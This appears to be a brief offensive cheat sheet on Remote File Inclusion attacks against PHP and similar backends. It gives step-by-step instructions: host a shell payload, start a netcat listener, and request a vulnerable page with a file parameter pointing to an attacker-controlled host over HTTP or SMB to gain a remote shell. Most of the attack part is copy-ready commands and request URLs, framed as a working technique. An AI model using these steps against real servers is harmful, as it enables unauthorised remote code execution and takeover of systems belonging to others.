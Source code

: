 # Remote File Inclusion (RFI)

### Allows an attacker to inject external URL in a vulnerable backend PHP/Python/etc. function.

### Example: 

#### 1: Host payload in an http server then setup a listener.

#### 2: 

    http://site.com/index.php?file=http://ATTACKER_IP/shell.php

#### 3: Enjoy your shell!

### TIP: If you detect an LFI vulnerability on a windows host, try to check if you can send files over SMB to the server like:

#### 1) 

    nc -lvnp PORT (Setup listener)

#### 2) 

    http://site.com/index.php?file=\\ATTACKER_IP\\FILE.php
